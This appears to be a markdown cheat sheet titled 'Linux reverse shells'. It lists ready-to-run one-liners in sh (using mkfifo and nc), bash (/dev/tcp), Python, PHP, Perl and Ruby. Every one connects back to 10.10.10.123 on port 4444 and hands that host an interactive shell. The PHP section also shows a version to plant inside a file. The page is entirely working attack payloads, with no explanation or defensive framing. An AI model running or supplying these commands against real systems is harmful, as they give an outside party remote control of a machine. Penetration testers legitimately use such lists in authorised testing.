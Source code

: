 # Linux reverse shells

## sh
Works on Linux and FreeBSD/NetBSD.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.123 4444 >/tmp/f
```

## bash
```bash
bash -i >& /dev/tcp/10.10.10.123/4444 0>&1
``` 

## python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.123",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## php
```php
# One liner
php -r '$sock=fsockopen("10.10.10.123",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

# Reverse shell in file
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.123/4444 0>&1'");
```

## perl
```perl
perl -e 'use Socket;$i="10.10.10.123";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.10.10.123",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

